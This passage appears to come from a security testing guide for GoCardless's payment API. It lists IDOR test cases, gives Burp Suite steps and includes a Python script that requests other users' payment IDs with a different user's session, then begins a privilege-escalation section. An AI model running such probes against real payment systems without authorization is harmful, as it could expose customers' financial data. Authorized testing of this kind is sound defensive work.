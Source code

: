 **Test Cases:**

| Endpoint Example | Test | Expected |
|-----------------|------|----------|
| `/payments/PM123` | Change PM123 to PM124 (user B's payment) | Should deny |
| `/api/customers/CU456` | Access CU456 from different account | Should deny |
| `/subscriptions/SB789/cancel` | Cancel another user's subscription | Should deny |
| `/webhooks/WH111/delete` | Delete another merchant's webhook | Should deny |

**Burp Suite Method:**
1. Log in as User A, capture all requests
2. Log in as User B, capture all requests
3. Use Burp Comparer to find ID patterns
4. Use Burp Intruder to test ID ranges
5. Try User A's session with User B's IDs

**Automation Script:**

```python
# Create file: exploits/idor-test.py
import requests

session_user_a = "YOUR_SESSION_A"
session_user_b = "YOUR_SESSION_B"

# IDs from User B
user_b_ids = ["PM124", "CU456", "SB789"]

for resource_id in user_b_ids:
    # Try accessing User B's resource with User A's session
    response = requests.get(
        f"https://api-sandbox.gocardless.com/payments/{resource_id}",
        headers={"Authorization": f"Bearer {session_user_a}"}
    )
    
    if response.status_code == 200:
        print(f"[VULN] IDOR found! User A accessed {resource_id}")
    else:
        print(f"[SAFE] Access denied for {resource_id}")
```

---

### 2. Privilege Escalation ⭐⭐⭐⭐⭐

**Priority:** CRITICAL

**Description:** Escalate from lower privileges (read_only) to higher privileges (admin/read_write).

**User Roles in GoCardless:**
- **Admin:** Full access
- **Read_write:** Can create/modify payments
- **Read_only:** View-only access
